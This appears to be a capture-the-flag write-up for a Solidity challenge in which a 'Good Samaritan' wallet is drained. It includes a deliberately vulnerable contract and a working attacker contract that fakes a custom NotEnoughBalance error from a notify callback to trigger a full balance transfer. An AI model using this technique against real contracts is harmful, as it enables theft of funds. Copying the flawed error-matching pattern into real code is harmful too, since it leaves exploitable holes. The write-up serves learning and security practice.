

# Description

This instance represents a Good Samaritan that is wealthy and ready to donate some coins to anyone requesting it.

Would you be able to drain all the balance from his Wallet?

Things that might help:

- Solidity Custom Errors

```sol
// SPDX-License-Identifier: MIT
pragma solidity >=0.8.0 <0.9.0;

import "openzeppelin-contracts-08/utils/Address.sol";

contract GoodSamaritan {
    Wallet public wallet;
    Coin public coin;

    constructor() {
        wallet = new Wallet();
        coin = new Coin(address(wallet));

        wallet.setCoin(coin);
    }

    function requestDonation() external returns (bool enoughBalance) {
        // donate 10 coins to requester
        try wallet.donate10(msg.sender) {
            return true;
        } catch (bytes memory err) {
            if (keccak256(abi.encodeWithSignature("NotEnoughBalance()")) == keccak256(err)) {
                // send the coins left
                wallet.transferRemainder(msg.sender);
                return false;
            }
        }
    }
}

contract Coin {
    using Address for address;

    mapping(address => uint256) public balances;

    error InsufficientBalance(uint256 current, uint256 required);

    constructor(address wallet_) {
        // one million coins for Good Samaritan initially
        balances[wallet_] = 10 ** 6;
    }

    function transfer(address dest_, uint256 amount_) external {
        uint256 currentBalance = balances[msg.sender];

        // transfer only occurs if balance is enough
        if (amount_ <= currentBalance) {
            balances[msg.sender] -= amount_;
            balances[dest_] += amount_;

            if (dest_.isContract()) {
                // notify contract
                INotifyable(dest_).notify(amount_);
            }
        } else {
            revert InsufficientBalance(currentBalance, amount_);
        }
    }
}

contract Wallet {
    // The owner of the wallet instance
    address public owner;

    Coin public coin;

    error OnlyOwner();
    error NotEnoughBalance();

    modifier onlyOwner() {
        if (msg.sender != owner) {
            revert OnlyOwner();
        }
        _;
    }

    constructor() {
        owner = msg.sender;
    }

    function donate10(address dest_) external onlyOwner {
        // check balance left
        if (coin.balances(address(this)) < 10) {
            revert NotEnoughBalance();
        } else {
            // donate 10 coins
            coin.transfer(dest_, 10);
        }
    }

    function transferRemainder(address dest_) external onlyOwner {
        // transfer balance left
        coin.transfer(dest_, coin.balances(address(this)));
    }

    function setCoin(Coin coin_) external onlyOwner {
        coin = coin_;
    }
}

interface INotifyable {
    function notify(uint256 amount) external;
}
```

# Solution

## Attack Idea

1. The Coin contract's requestDonation will call `wallet.transferRemainder(msg.sender)` when the call of `wallet.donate10(msg.sender)` throw the `NotEnoughBalance` error.

2. In normal case, the `NotEnoughBalance` error should throw if and if only `coin.balances(address(this)) < 10`

3. But the donate process involve the call of `coin.transfer(address dest_, uint256 amount_)` function and this function will call the `notify` function of the destination contract.

4. If `notify` function throw `NotEnoughBalance` error, it will be catched by the caller (or caller of the caller). 

## Executed Transactions

https://sepolia.etherscan.io/tx/0x1eb340492f2cf23c1c2b9d16a68710b1935d46092fb3335a0c91087857075cb9/advanced#internal



## Code

```sol
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.13;

error NotEnoughBalance();

interface IGoodSamaritan {
    function requestDonation() external returns (bool enoughBalance);
}

contract FakeNotEnoughBalance {
    address samaritan;

    function pwn(address _samaritan) external {
        samaritan = _samaritan;
        IGoodSamaritan(samaritan).requestDonation();
    }

    function notify(uint256 amount) external pure {
        if (amount == 10) {
            revert NotEnoughBalance();
        }
    }
}
```
